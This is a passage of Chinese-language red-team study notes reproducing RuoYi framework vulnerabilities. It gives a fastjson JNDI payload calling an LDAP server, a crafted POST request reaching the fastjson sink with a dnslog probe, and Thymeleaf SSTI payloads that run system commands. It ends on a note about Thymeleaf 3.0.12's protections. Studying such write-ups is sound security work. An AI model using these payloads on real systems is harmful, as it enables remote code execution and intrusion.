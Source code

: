 开启 autotype  
```
params[@type]=org.apache.shiro.jndi.JndiObjectFactory&params[resourceName]=ldap://192.168.12.76:1389/09rlhv
```  
## ruoyi4.2.0  
  
初看这个数据包一堆参数，有点复杂，根据之前的分析梳理一下，需要的参数是 tplCategory  
为tree  
，才能走到fastjson漏洞点  
,认真梳理一下需要的参数，发现还需要treeCode&treeParentCode  
参数，这块代码中全局搜索提示的缺少的内容的中文名称即可发现参数名称，填写上即可。  
  
最终简化后的数据包如下  
```
POST /tool/gen/edit HTTP/1.1
Host: 172.16.0.66
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Referer: http://172.16.0.66/tool/gen/edit/6
Cookie: JSESSIONID=c229803b-e147-4853-ae79-df7e04dcd338
X-Requested-With: XMLHttpRequest
Accept: application/json, text/javascript, */*; q=0.01Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8Origin: http://172.16.0.66Accept-Language: zh-CN,zh;q=0.9Content-Length: 3610tableName=111111&tableComment=111111&className=111111&functionAuthor=111111&&columns[0].javaType=Long&columns[0].javaField=infoId&&tplCategory=tree&treeCode=111111&treeParentCode=111111&packageName=111111&moduleName=111111&businessName=111111&functionName=111111&params[treeCode]=111111&params[treeParentCode]=1&params[treeName]={"@type":"java.net.Inet4Address","val":"11.hb4r0s.dnslog.cn"}
```  
# 0x08 SSTI模版注入漏洞  
#### 漏洞版本  
  
在4.7.1版本CacheController类中  
![[../S24-25赛季-大黑客之路/红队知识学习/assets/Y10 若依ruoyi/file-20250416135654610.png]]  
#### 漏洞复现  
  
模板注入漏洞payload：  
  
return内容可控：  
```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}::.x
```  
  
URL路径可控：  
```
${T(java.lang.Runtime).getRuntime().exec("touch test")}::.x
```  
  
测试上述payload发现返回包返回500，具体情况是Thymeleaf3.0.12  
版本对这个版本进行了一些先知，防止模板注入漏洞，https://github.com/thymeleaf/thymeleaf/issues/809  
以下为防护的情况：  
  